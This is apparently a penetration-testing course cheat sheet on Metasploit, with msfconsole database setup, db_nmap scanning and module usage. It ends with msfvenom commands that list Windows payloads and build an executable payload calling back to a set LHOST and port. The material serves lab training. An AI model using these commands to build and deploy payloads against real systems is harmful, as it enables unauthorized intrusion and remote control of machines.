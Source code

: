 ## metasploit

For basic DB setup (these shouldn't need to be run every time):
```bash
sudo msfdb init
```
```bash
sudo systemctl enable postgresql
```
To start our console session:
```bash
sudo msfconsole
```
```bash
workspace -a pen200-exercises
```
To run an Nmap scan and put the results in a MSF queryable DB:
```bash
db_nmap -A <target IP>
```
To query the results committed to the DB in our current workspace:
```bash
hosts
services
services -p <port of interest>
```
To query auxiliary modules in MSF:
```bash
search type:auxiliary <insert thing of interest>
```
To use a module that you've discovered pass its path or number to `use`:
```bash
use 1337
```
Within that we can discover more about the module we have in hand via:
```bash
info
show options
```
To specify the value of an option:
```bash
set <option name> <value>
```
To void that selection:
```bash
unset <option name>
```
When options are ready:
```bash
run
```

### msfvenom
Courtesy of `venom` payloads can be exported from the Metasploit Framework to be used as we see fit, so we aren't bound to the console. To discover payloads:
```bash
msfvenom -l payloads --platform windows --arch x64
```
To adapt one to our needs:
```bash
msfvenom -p <payload name> LHOST=192.168.45.175 LPORT=4444 -f exe -o uberPwnage.exe
```

